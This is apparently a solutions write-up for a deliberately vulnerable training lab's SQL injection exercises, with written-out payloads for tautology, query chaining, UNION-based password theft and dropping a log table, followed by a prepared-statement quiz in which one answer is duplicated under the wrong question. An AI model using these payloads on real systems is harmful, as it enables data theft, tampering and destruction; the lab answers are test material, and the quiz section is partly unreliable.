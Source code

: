 # SQL Injection (intro)

## What is SQL?

_Challenge_: retrieve the `department` of the employee **Bob Franco**.

_Solution_: `SELECT department FROM employees WHERE userid=96134`.

## Data Manipulation Language (DML)

_Challenge_: change the `department` of **Tobi Barnett** to `'Sales'`.

_Solution_: `UPDATE employees SET department='Sales' WHERE userid=89762`.

## Data Definition Language (DDL)

_Challenge_: modify the schema by adding the column `phone` _(varchar(20))_ to the table `employees`.

_Solution_: `ALTER TABLE employees ADD phone varchar(20)`.

## Data Control Language (DCL)

_Challenge_: grant rights to the table `grant_rights` to user `unauthorized_user`.

_Solution_: `GRANT ALL PRIVILEGES ON grant_rights TO unauthorized_user`.

## String SQL injection

_Challenge_: retrieve all the users from the users table using the query `"SELECT * FROM user_data WHERE first_name = 'John' AND last_name = '" + lastName + "'";`.

_Solution_: **SELECT * FROM user_data WHERE first_name='John' AND last_name='** `Smith'` `or` `'1'='1` **'**

## Numeric SQL injection

_Challenge_: retrieve all the data from the users table using the form with query `"SELECT * FROM user_data WHERE login_count = " + Login_Count + " AND userid = "  + User_ID;`.

_Solution_:
- Login_Count: `1`.
- User_Id: `2 OR 1=1;--`.

## Compromising confidentiality with String SQL injection

_Challenge_: retrieve all employee data from the **employees** table using the form with query `"SELECT * FROM employees WHERE last_name = '" + name + "' AND auth_tan = '" + auth_tan + "'";`.

_Solution_:
- Employee Name: `Smith' OR 1=1;--`.
- Authentication TAN: `anything`.

## Compromising Integrity with Query chaining

_Challenge_: change your own salary so you are earning the most. Your name is John **Smith** and your current TAN is **3SL99A**.

_Solution_:
- Employee Name: `'; UPDATE employees SET SALARY=700000 WHERE AUTH_TAN='3SL99A';--`.
- Authentication TAN: `anything`.

## Compromising Availability

_Challenge_: delete the **access_log** table, where all your actions have been logged to.

_Solution_: `'; DROP TABLE access_log; --`.

# SQL Injection (advanced)

## Pulling data from other tables

_Challenge_: retrieve all data from the tables below to find Dave's password.

```
CREATE TABLE user_data (userid int not null,
                        first_name varchar(20),
                        last_name varchar(20),
                        cc_number varchar(30),
                        cc_type varchar(10),
                        cookie varchar(20),
                        login_count int);
                        
CREATE TABLE user_system_data (userid int not null primary key,
			                   user_name varchar(12),
			                   password varchar(10),
			                   cookie varchar(30));
```

_Solution_:
- Name: `' OR 1=1; SELECT * FROM user_system_data;--`.
- Password: `passW0rD`.
- Alternative for Name: `' UNION SELECT userid,user_name, password, 'a', 'b', 'c', 1 from user_system_data --`.

## Assignment

_Challenge_: Can you log in as **Tom**?

_Solution_: 

## Quiz

_What is the difference between a prepared statement and a statement?_
Solution 4: A statement includes actual values, whereas a prepared statement uses placeholders.

_Which one of the following characters is a placeholder for variables?_
Solution 3: ?

_How can prepared statements be faster than statements?_
Solution 2: Prepared statements are compiled once by the database management system and then reused with different inputs, reducing compilation overhead.

_How do prepared statements help prevent SQL injection?_
Solution 2: Prepared statements are compiled once by the database management system and then reused with different inputs, reducing compilation overhead.

_How do prepared statements help prevent SQL injection?_
Solution 3: Placeholders prevent user input from being directly appended to the SQL query, ensuring a clear separation between code and data.

_What happens if a person with malicious intent enters the following input into a registration form that uses a prepared statement? Input: Robert); DROP TABLE Students;--_
Solution 4: The database treats the entire input as a plain string: Robert); DROP TABLE Students;-- without executing it as SQL.